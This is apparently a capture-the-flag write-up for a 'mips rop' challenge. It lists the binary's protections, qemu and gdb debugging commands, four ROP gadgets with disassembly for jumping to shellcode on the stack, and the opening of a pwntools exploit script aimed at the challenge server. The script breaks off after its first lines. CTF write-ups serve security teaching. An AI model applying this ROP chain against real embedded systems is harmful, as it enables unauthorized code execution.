 ```python
```

## mips rop (300 points, 14 solves)
This provided program is a mips arch binary without any protection.
```c
Canary                        : ✓ (value: 0xd7bcd900)
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

We can use `qemu-mips-static -g 1234 ./rop` to run the binary and open a port for debugging and use `gdb-multiarch ./rop` with commands `set architecture mips` and `target remote 127.0.0.1:1234` to attach the binary with gdb.

The challenging part is finding the correct gadget and jump to the stack location that we placed the shellcode.

We have used four gadgets in total.
```python
set_sp2s7_jmp_s1  = 0x041F0A4
# .text:0041F0A4                 addiu   $s7, $sp, 0x20+var_8
# .text:0041F0A8                 li      $s5, strtoul
# .text:0041F0AC                 move    $s0, $v0
# .text:0041F0B0                 move    $t9, $s1
# .text:0041F0B4                 jalr    $t9

set_ra_s1_s2_s0_jmp_ra = 0x0400C14
# .text:00400C14                 lw      $ra, 0xB8+var_sC($sp)
# .text:00400C18                 lw      $s2, 0xB8+var_s8($sp)
# .text:00400C1C                 lw      $s1, 0xB8+var_s4($sp)
# .text:00400C20                 lw      $s0, 0xB8+var_s0($sp)
# .text:00400C24                 jr      $ra

set_sp2a1_jmp_s2 = 0x00440784
# .text:00440784                 addiu   $a1, $sp, 0x6C+var_38
# .text:00440788                 sw      $zero, 0x6C+var_5C($sp)
# .text:0044078C                 move    $t9, $s2
# .text:00440790                 jalr    $t9

mov_s1_a1_jmp_s0 = 0x044E20C
# .text:0044E20C                 move    $s1, $a1
# .text:0044E210                 addiu   $s5, $v0, 1
# .text:0044E214                 move    $t9, $s0
# .text:0044E218                 jalr    $t9 ; strlen
```

### Exploit Script
```python
from pwn import *


HOST = 'chal.hkcert23.pwnable.hk'
PORT = 28151
context.arch = 'mips' # i386/amd64
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
context.endian = "big"

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    # libc = ELF('')
else:
```